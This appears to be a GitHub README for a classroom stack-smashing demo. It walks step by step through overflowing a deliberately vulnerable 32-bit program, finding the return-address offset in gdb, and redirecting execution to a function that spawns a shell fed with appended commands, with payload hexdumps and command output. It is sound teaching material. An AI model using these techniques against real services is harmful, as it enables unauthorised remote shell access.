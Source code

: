 # Stack Smashing Demo

Tested on Ubuntu 16.04 LTS

## Install toolchain for compiling for 32-bit

Since we are smashing the stack like it is 1995 anyway.

```
sudo apt-get install libc6-dev-i386
```

## Enable core dumps

First change the core file block-size limit from its default of 0

```
$ ulimit -c unlimited
```

Then change the `core_pattern` to something sensible. The following
always puts the core dump in the file 'core' but one can use e.g.
"core.%P" instead to append the process id to generate pseudo-unique
file names.

Note the following has to be run as root.

```
$ echo "core" > /proc/sys/kernel/core_pattern
```


## Crash the program, get control of EIP (program counter)

Here we use any long input. By convention we use a big string of AAAAs

````
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````

````
$ ./stackme < input.AAAA
````

````
$ gdb ./stackme core
... gdb output follows ...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
````

Note that the pc is at 0x41414141 ('AAAA') meaning that our input has eneded
up in the pc, so we have control over it.

## Using gdb to understand what is going on

To see how that happens, use gdb to set a breakpoint at the point at which
`copy_name` returns.

Use `list` to see source code and note that return instruction is on line 17.

```
(gdb) b stackme.c:17
Breakpoint 1 at 0x804857b: file stackme.c, line 17.
(gdb) run < input.AAAA
```

Then when the breakpoint hits, note that we are not quite at the `ret`
instruction yet by using `disassemble`.

You can single-step by using `stepi` and `disassemble` to see the pc
advance on each instruction until the `ret` is hit and then confirm the
stack contents using the `x` instruction, at which point it looks like
this:
```
(gdb) x/4xw $esp
0xffffdb4c: 0x41414141	0x41414141	0x0000000a	0xf7fc55a0
``

Note `x/4xw` means print 4 words at the memory addressed by the stack
pointer. In any case, note that the stack pointer (i.e. saved return
address) is now 0x41414141.

You can examine the contents of the registers using `info registers` in
gdb.


## Find the input that ends up being in the pc

The stack buffer is 32 bytes long. The return address turns out to live
at the fourth word after that on my 16.04 VM

This requires modifying some of the AAAAs to e.g. BBBB, CCCC, DDDD and
seeing which one ends up being in the PC

```
$ ./stackme < input.find_offset
```

```
$ gdb ./stackme core
...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x45454545 in ?? ()
```

## Exploit Step 1

In this trivial case, we write the pc so that the program executes
the 'some_function' function which, conveniently, gives us a shell.

gdb can identify the address of 'some_function' wince the program is
compiled -no-pie and so each function has a fixed global address

```
$ gdb ./stackme
...
(gdb) print some_function
$1 = {void ()} 0x804852b <some_function>
```

## Put that address into the input at the right offset

For this I use the 'hexedit' program to edit the input file

Remember it has to go in reverse order because x86 is little endian
So the input to get the program to jump to some_function looks like this
(the following is a hexdump)

```
00000000   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000010   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000020   42 42 42 42  43 43 43 43  44 44 44 44  2B 85 04 08  BBBBCCCCDDDD+...
```

This input is in the file `input.jump_to_func`. When we run the program
with this input note that it doesn't crash anymore and it also doesn't
print the final "Goodbye!" message. This means that the jump to
`some_function` has worked.

```
$ ./stackme < input.jump_to_func
Welcome to level 0

Please enter your name:

Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD+�FFFF
!
```

## Exploit Step 2

Now we need to make our exploit do something. The reason that, when
the input above causes the shell to be invoked, the program does nothing
is because the shell has no input to read. We need to give it some input.
It gets its input from stdin, i.e. from the input file we are iteratively
writing. So our commands to the shell have to go into that input.

(Note: these commands are *not* what is meant by the term "shellcode".
Shellcode is binary code that causes the program to execute a shell. Our
program already has a function for doing that, so we don't need to write
any shellcode. What we are writing here are textual commands that will be
read by the shell once it runs that instructs the shell to do something
on our behalf.)

It turns out that when the first data is read from stdin, internally
the kernel tries to read 4096 bytes of input. Then after the `execve`,
when the shell is running, the shell tries to read more 
input from stdin. Therefore, to reliably get the shell to read our commands,
we need to put them in the input file after the first 4096 bytes of input.

You can confirm this by running `strace ./stackme < input.jump_to_func`
and looking through the `strace` output of all the system calls. Look
especially for calls of the form `read(0,...)` which are reads to stdin,
and `execve` which are executions of new binaries.

```
$ strace ./stackme  < input.jump_to_func  2>&1 | grep 'read(0\|execve'
execve("./stackme", ["./stackme"], [/* 67 vars */]) = 0
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 53
execve("/bin/sh", NULL, NULL)           = 0
read(0, "", 8192)                       = 0
```

We can get our shell commands into the input therefore by padding the
input with 4096 ASCII NUL charcters (byte 0x0 -- i.e. 4096 zero bytes).
These will be ignored by the shell anyway if it reads any. Our commands
can then come after that.

Make a file `zeros` with 4096 zero bytes in it:
```
$ dd if=/dev/zero of=zeros bs=4096 count=1
```

Make a file `shell_commands` with your shell commands in it.

Then stich these together with the input that jumps to `some_function`
and put the results into the file `input.exploit`:

```
$ cat input.jump_to_func zeros shell_command > input.exploit
```

```
$ ./stackme < input.exploit
```

Your shell commands should then be executed.

Of course you could have executed them yourself. But suppose
`stackme` was running over the network and you could give it input remotely.
You would now have a working shell on the remote computer.









